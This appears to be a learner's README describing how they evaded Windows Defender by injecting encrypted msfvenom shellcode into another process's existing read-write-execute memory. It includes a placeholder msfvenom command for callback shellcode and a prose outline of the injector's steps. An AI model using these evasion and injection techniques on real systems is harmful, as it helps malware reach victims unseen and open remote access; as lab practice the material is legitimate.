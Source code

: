 ### Introduction

So I don't know why, but i've done some malware analysis (still a noob btw), i've also tried some malware development(still a noob btw) in an environment 
where windows defender was always disabled and i've never tried bypassing it. So I decided to start with something simple.
I started with a simple google search...How to bypass windows defender and i stumbled on 2 blog post, one was related to Loki C2 and the 
other with injecting shellcode inside a process that already had READ,WRITE AND EXECUTE memory sections.

And before you say it, yes, i know, it's already a known fact, it's easy to bypass windows...but to do it yourself is still learning. It's one thing
to just take a working code and just run it, but it's another thing to take the code understand it and modify it to the way you like.
That's why i learned reverse engineering, because you need to be able to understand the inner workings of anything you touch. I think
that's what make the difference between people in this field!

I guess you already know which one I chose to start with, i chose the latter.
Here's the blog I used as a reference : https://medium.com/@s12deff/bypass-windows-defender-executing-shellcode-using-freeloaderinjector-7deeba8796e2.
In that blog he used the undocumented API : `ntdll.dll`. I didn't want to just copy and paste it, so i adapted it by using the documented API
and I removed unnecessary stuff, which provided me a good practice and refresher.


### Setup

- Kali VM
- Windows 10 VM
- Visual Studio
- Metasploit
- Your Head
- ChatGPT (for reference of course😆)


### Walkthrough

1. So first, I started by generating a shellcode with msfvenom : `msfvenom -p <PAYLOAD> LHOST=<YOUR_IP> LPORT=<PORT> -f c > <NAME>.c`
2. Then I Encrypted the payload, I have an encryptor program that i used, you can find it on my Github (you can create your own too) : `Crypter`
3. The main program will
    - Get an handle on each processes and duplicate them (for future implementations i duplicate them, to be able to perform additionnal executions and also to be able to immediately close the handle i opened)
    - Check if the process has RWX memory section and get that address in memory
    - Decrypt the payload and inject it into that section
4. Build the executable as Release and upload it to your windows vm

![POC](poc.png)

### Conclusion

I think, that next i want to either try a dll sideloading and then move on to using Loki with electron apps that also uses dll sideloading attacks,
there's a good write-up on it, if you want to take a head start!

